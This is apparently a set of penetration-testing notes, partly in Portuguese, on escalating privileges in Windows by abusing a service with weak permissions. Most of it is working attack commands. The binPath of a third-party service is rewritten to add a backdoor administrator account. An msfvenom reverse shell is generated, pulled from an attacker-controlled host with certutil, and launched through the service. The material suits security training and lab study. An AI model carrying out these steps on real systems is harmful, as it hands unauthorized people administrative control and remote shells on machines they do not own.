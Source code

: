 # 1. Services

identify the services that are running

```
wmic service
wmic service get Name,State,PathName | findstr "Running" | findstr "Program" - esse comando vai mostrar apenas os programas instalados pelo usuario e que estao com o processo rodando na maquina

icacls "C:\Program Files\IObit\Advanced SystemCare\ASCService.exe" - esse comando vai mostrar as permissoes para esse determinado serviço

```

<div align="left"><figure><img src="../../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure></div>

In this case, icacls informs that the user has full permission (F) for this service.
\
Using Sysinternals to check service permissions

{% code overflow="wrap" %}
```
accesschk.exe -wvcu "Users" * - Search for all services on the machine that have write permission
```
{% endcode %}

Search for information about a specific service

```
sc query service
sc query AdvancedSystemCareService13 - Search for information about this service
sc qc AdvancedSystemCareService13 - Show service configuration information
```

Using the service to add a user

```
changing the service path to run commands
sc config AdvancedSystemCareService13 binPath=" net user hack Admin@123 /add"

After changing the service path, you need to restart this service to run the command.

sc stop AdvancedSystemCareService13
sc start AdvancedSystemCareService13
```

We can execute a reverse shell to gain administrative access in the same way

```
#Creating the shell
msfvenom -p windows/shell_reverse_tcp lhost=172.168.0.16 lport=8080 -f exe > shell.exe

After that send to target
```

<div align="left"><figure><img src="../../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure></div>

Receiving the shell

```
#Changing the service path again

sc config AdvancedSystemCareService13 binPath=" certutil -urlcache -f http://192.168.0.16/shell.exe shell.exe"
```

\
After changing the binpath, just start the service to receive the file.

<div align="left"><figure><img src="../../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure></div>

To run the reverse shell just change the binpath again and call the shell

```
sc config AdvancedSystemCareService13 binPath="shell.exe"
```

<figure><img src="../../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

<div align="left"><figure><img src="../../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure></div>
